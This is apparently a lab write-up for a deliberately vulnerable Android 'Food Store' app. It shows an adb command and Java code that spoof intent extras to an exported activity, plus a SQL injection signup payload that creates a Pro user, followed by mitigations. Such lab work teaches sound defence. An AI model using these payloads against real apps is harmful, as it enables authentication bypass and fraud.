





## Objection

Exploit a SQL Injection Vulnerability: Your mission is to manipulate the signup function in the "Food Store" Android application, allowing you to register as a Pro user, bypassing standard user restrictions.

## Static Analysis

I started by decompiling the application using **jadx** to review the source code and identify attack vectors.

### AndroidManifest.xml Analysis

First, I examined the `AndroidManifest.xml` file to understand the app's component structure.



I noticed that:
- `Signup` activity is **not exported** (`exported="false"`)
- `MainActivity` is **exported** (`exported="true"`)
- `LoginActivity` is also **exported** (`exported="true"`)

>The `MainActivity` being exported means that **any other app or component** on the device can launch it directly without going through the login screen.


Next, I analyzed the `MainActivity` code to understand how it handles incoming intents.


I found the following critical issues:

1. **No authentication check** — The activity does not verify if the user is properly authenticated.
2. **Trusts intent data blindly** — It takes `USERNAME`, `USER_CREDIT`, `IS_PRO_USER`, and `USER_ADDRESS` directly from the intent.
3. **Privilege escalation** — The `IS_PRO_USER` boolean determines if the user appears as "Pro User".
4. **Default values** — If no data is provided, it defaults to "Guest" with 0 credits.
    

Because `MainActivity` is exported, an attacker can craft a malicious intent from anywhere on the device (including a custom app or ADB) and pass arbitrary values.

### 1- Using ADB (Android Debug Bridge)

The simplest way to exploit this is using ADB commands:

```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity \
--es USERNAME "test_user" \
--ei USER_CREDIT 12345 \
--ez IS_PRO_USER true
```

### 2- Direct Launch from App

An attacker could also create a simple Android app that sends the same intent:

```java
Intent intent=new Intent();  
intent.putExtra("USERNAME","test_user");  
intent.putExtra("USER_CREDIT",12345);  
intent.putExtra("IS_PRO_USER",true);  
intent.setClassName("com.mobilehackinglab.foodstore",  
        "com.mobilehackinglab.foodstore.MainActivity");  
startActivity(intent);
```
### The Result

When the malicious intent is received, the `MainActivity` displays:
- **Username**: "test_user" (or whatever we set)
- **redits**: 12345 (or whatever we set)
- **Pro User**: "Pro User" (because we set `IS_PRO_USER` to `true`)
    

This demonstrates that an attacker can completely bypass authentication and become a "Pro User" with any credit amount they desire.


---
# The Second Solution 


While inspecting the registration logic in `Signup` activity, i found that at the end of the checks it send the user data to the adduser method in dbhelper


At adduser method I found another critical vulnerability. The app builds an `INSERT` SQL query using string concatenation:



The code takes the user's input (`Username`) and directly concatenates it into the SQL query string without any sanitization or parameterization That made me consider what would happen if a user entered a specially crafted username containing SQL metacharacters.

To test this in a controlled environment, I used the app's registration form and entered the following payload in the username field:

```text
admin', 'cGFzc3dvcmQ=', 'fake_addr', 1); -- 
```
> cGFzc3dvcmQ= is base64 encode of "password" 

### How the Injection Works

When the app executes the query, it becomes:

```sql
INSERT INTO users (username, password, address, isPro) 
VALUES ('admin', 'cGFzc3dvcmQ=', 'anything', 1); -- ', 'real_password', 'real_addr', 0)
```

The database interprets this as:

1. **First part:** `INSERT INTO users (username, password, address, isPro) VALUES ('admin', 'cGFzc3dvcmQ=', 'fake_addr', 1);`
    - This inserts a new user with `isPro = 1` (Pro User).

2. **Second part:** `-- ', 'cGFzc3dvcmQ=', 'real_addr', 0)`
    - Everything after `--` is treated as a comment and completely ignored.
        

### The Result

After submitting the registration form with the malicious payload, the app successfully created a new user .



---
## Impact

These vulnerabilities allow an attacker to:

1. **Bypass authentication** — Access `MainActivity` directly without logging in.
2. **Escalate privileges** — Become a "Pro User" without paying or earning it.
3. **Manipulate credits** — Set any credit value, potentially causing financial loss to the app provider.
4. **Spoof user identity** — Impersonate any user by setting a different username.

---

## Mitigation

To fix these vulnerabilities, the developer should implement the following measures:

### 1. Set Exported to False

If `MainActivity` should not be accessed from outside the app:

```xml
<activity
    android:name="com.mobilehackinglab.foodstore.MainActivity"
    android:exported="false"/>
```

### 2. Verify Caller Identity

If the activity must be exported, verify that the caller is authorized:

```java
private boolean isCallerAuthorized() {
    ComponentName caller = getCallingActivity();
    if (caller == null) {
        return false; // Called without permission
    }
    return caller.getPackageName().equals("com.mobilehackinglab.foodstore");
}
```

### 3. Use Parameterized Queries (Prepared Statements)

This is the most effective defense against SQL injection. With parameterized queries, user input is treated as **data**, not as executable SQL code.

```kotlin
String sql = "INSERT INTO users (username, password, address, isPro) VALUES (?, ?, ?, 0)";
SQLiteStatement stmt = db.compileStatement(sql);
stmt.bindString(1, Username);
stmt.bindString(2, encodedPassword);
stmt.bindString(3, encodedAddress);
stmt.executeInsert();
```

### 4. Validate and Sanitize User Input

Always validate user input before using it in database queries:

```kotlin
fun isValidUsername(username: String): Boolean {
    return username.matches(Regex("^[a-zA-Z0-9._-]+$"))
}
```

### 5. Use Permissions

Add custom permissions to protect the activity:

```xml
<permission android:name="com.mobilehackinglab.foodstore.ACCESS_MAIN_ACTIVITY"/>
<uses-permission android:name="com.mobilehackinglab.foodstore.ACCESS_MAIN_ACTIVITY"/>
```
---

## Conclusion

This challenge demonstrates two serious security vulnerabilities in the FoodStore application: an exported activity that allows unauthorized access with arbitrary intent data, and SQL injection in the registration functionality that enables privilege escalation. By exploiting these flaws, an attacker can bypass authentication, become a "Pro User," manipulate credits, and compromise the entire database. The exploitation vectors were particularly accessible because the app blindly trusts user input without any validation or sanitization. To prevent such attacks, developers must never export sensitive activities, always validate intent data, use parameterized queries instead of string concatenation, and implement proper authentication checks. 


